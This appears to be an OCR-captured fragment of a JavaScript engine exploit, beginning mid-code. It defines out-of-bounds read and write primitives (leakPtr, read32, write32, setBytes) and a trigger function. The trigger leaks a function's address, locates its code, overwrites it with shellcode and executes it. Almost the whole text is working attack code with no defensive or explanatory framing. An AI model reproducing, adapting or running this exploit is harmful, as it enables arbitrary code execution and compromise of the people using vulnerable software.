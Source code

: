 ```

    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }

    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }

    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }

    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }

    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}

function trigger() {
    var oob = oobAccess();

    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));

    var kCodeInsOffset = 0x1b;

    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));

    oob.setBytes(code_addr, shellcode);

    target_function(0);
}

try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
```
